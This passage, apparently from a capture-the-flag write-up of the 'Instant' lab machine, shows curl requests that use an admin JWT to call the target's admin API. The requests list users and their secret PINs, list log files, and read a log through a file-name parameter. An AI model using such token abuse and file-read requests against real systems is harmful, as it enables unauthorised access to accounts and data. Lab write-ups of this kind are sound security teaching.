 We will now try to use the `JWT` as the authorization for the `api`.

```
curl -sX GET -H 'Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA' http://swagger-ui.instant.htb/api/v1/admin/list/users | jq
```

```json
{
  "Status": 200,
  "Users": [
    {
      "email": "admin@instant.htb",
      "role": "Admin",
      "secret_pin": 87348,
      "status": "active",
      "username": "instantAdmin",
      "wallet_id": "f0eca6e5-783a-471d-9d8f-0162cbc900db"
    },
    {
      "email": "shirohige@instant.htb",
      "role": "instantian",
      "secret_pin": 42845,
      "status": "active",
      "username": "shirohige",
      "wallet_id": "458715c9-b15e-467b-8a3d-97bc3fcf3c11"
    }
  ]
}
```

It worked. Since in "users" don't find anything interesting, we will try to read the "logs".

```
curl -sX GET -H 'Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA' "http://swagger-ui.instant.htb/api/v1/admin/view/logs" | jq
```

```json
{
  "Files": [
    "1.log"
  ],
  "Path": "/home/shirohige/logs/",
  "Status": 201
}
```

There is a `1.log` file. They are located in `/home/shirohige/logs/`. Let's read that file.

```
curl -sX GET -H 'Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA' "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=1.log" | jq
```
